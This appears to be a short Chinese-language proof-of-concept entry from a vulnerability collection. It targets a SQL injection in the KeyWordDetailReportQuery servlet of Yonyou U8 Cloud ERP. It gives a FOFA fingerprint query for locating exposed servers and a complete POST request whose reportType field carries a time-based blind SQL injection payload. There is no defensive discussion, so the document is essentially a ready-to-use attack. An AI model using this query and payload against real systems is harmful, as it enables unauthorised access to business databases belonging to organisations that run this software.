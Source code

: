 # 用友U8_cloud_KeyWordDetailReportQuery_SQL注入漏洞

## fofa
```
app="用友U8 Cloud"
```

## poc
```
POST /servlet/~iufo/nc.itf.iufo.mobilereport.data.KeyWordDetailReportQuery  HTTP/1.1
host:127.0.0.1

{"reportType":"';WAITFOR DELAY '0:0:5'--","usercode":"18701014496","keyword":[{"keywordPk":"1","keywordValue":"1","keywordIndex":1}]}
```

![19d957a16fb12f9edddbd99a2dbd081a](../../images/dfc8e10e-b1f8-41db-8dd2-e23c5c47b249.png)
